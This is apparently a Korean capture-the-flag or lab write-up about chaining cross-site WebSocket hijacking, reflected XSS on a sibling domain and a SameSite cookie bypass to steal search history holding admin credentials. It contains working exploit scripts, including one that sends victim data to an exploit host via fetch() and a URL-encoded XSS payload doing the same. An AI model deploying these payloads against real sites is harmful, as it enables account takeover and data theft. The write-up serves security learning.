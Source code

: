 # Cat-Distribution-System
To adopt kitties ₍^. .^₎⟆
<br><br>

## 페이지 구성
- home 페이지에서 입양할 고양이 확인 가능(고양이 클릭하면 세부정보 알 수 있음)
- 우상단에 Login 클릭 시 로그인 페이지로 연결
- Search 기능이 있음 (취약점 있는 부분)
- 전체 Search History를 반환하는 기능 구현
<br>

## 1. 검색 기능 분석

- 검색창에 무언가를 검색하면 검색 기록도 반환됨
- 검색 기록은 세션에 따라 반환됨
- 개발자 툴을 통해 살펴보면 웹 소켓 핸드셰이크를 찾을 수 있음
- “순수 WebSocket 프레임”이 아니라 Socket.IO 프레이밍을 사용하는 것 파악
- 요청에 예측 불가능한 토큰이 없기 때문에 CSWSH 취약점의 가능성
- 페이지 새로고침 시 클라이언트가 READY 메시지를 서버에 보내고 서버는 검색 기록으로 응답함
(단순 `new WebSocket(...).send("READY")` 로는 안 됨. Socket.IO 클라이언트를 써서 `socket.emit("READY", …)` 로 보내야 함)

## 2. CSWSH 취약점 확인

- search.js에서 코드 확인하고 공격 스크립트 작성해 익스플로잇 서버 통해 보내기
- 원래대로라면 피해자가 공격 코드를 열어봐야 하지만 문제에서는 puppeteer 자동화를 통해 익스플로잇 서버에 보내진 코드를 피해자가 열은 것으로 처리
    
    ### 2-1. 공격 스크립트 작성
    
    - 아래와 같이 익스플로잇 코드를 작성하여 익스플로잇 서버에 주입
    - 웹소켓 주소 알아내기 (F12 -> Network -> Socket: request url)
        
        ```html
        <script src="http://127.0.0.1:5000/static/js/socket.io.min.js"></script>
        <script>
        // exploit.js (참가자가 작성)
        const socket = io("http://web:5000"); // Socket.IO 연결
        socket.on('connect', () => socket.emit("READY", {}));
        socket.on('search_history', (data) => {
          fetch(`http://exploit:8000/collect?job=${jobId}&msg=${btoa(data.search_term)}`);
        });
        </script>
        ```
        
    - /logs 확인해보면 검색 기록이 유출되지만 세션 쿠키가 포함되지 않기 때문에 새 세션의 검색 기록만 얻을 수 있음
    - 서버가 SameSite=Strict이기 때문에 크로스사이트 요청에 쿠키를 보내지 않음을 확인할 수 있음

## 3. sibling domain에서 추가 취약점 발견

- 리소스 응답에 Access-Control-Allow-Origin 헤더가 sibling domain을 허용하는 것 확인
- 해당 페이지에 접속해보면 로그인 폼을 확인할 수 있음
- reflected XSS 취약점이 있는 것을 확인할 수 있음
    - `<script>alert(1)</script>` 보내서 확인 가능
- POST 요청을 GET으로 변환해도 XSS가 동작하는지 확인하고(동작함)
    - burp의 change request method로 가능
- URL로 직접 공격 코드 삽입
- sibling 도메인이 같은 사이트로 간주되어 SameSite 쿠키 제한 우회에 이용 가능함

## 4. SameSite restrictions 우회

- 이전 익스플로잇 스크립트를 URL 인코딩해서 sibling domain의 로그인 페이지의 username 파라미터에 삽입하는 코드 작성
    
    ```html
    <script>
    //sibling domain endpoint /login 뒤에 인코딩한 것 전체 복붙
    document.location="https://cms-0a53007a03d749349b3171130036002b.web-security-academy.net/login?username=%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%33%30%30%37%61%30%33%64%37%34%39%33%34%39%62%33%31%37%31%31%33%30%30%33%36%30%30%32%62%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%09%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%39%39%30%30%38%64%30%33%37%30%34%39%36%30%39%62%35%63%37%30%63%35%30%31%36%35%30%30%64%62%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b&password=z";
    </script>
    ```
    
- 익스플로잇 서버에서 전송
    
    => 전체 검색 기록이 유출됨. 유출된 기록에 admin 로그인 정보 포함
    

### 5. 로그인

- admin 정보를 통해 로그인하면 flag 획득
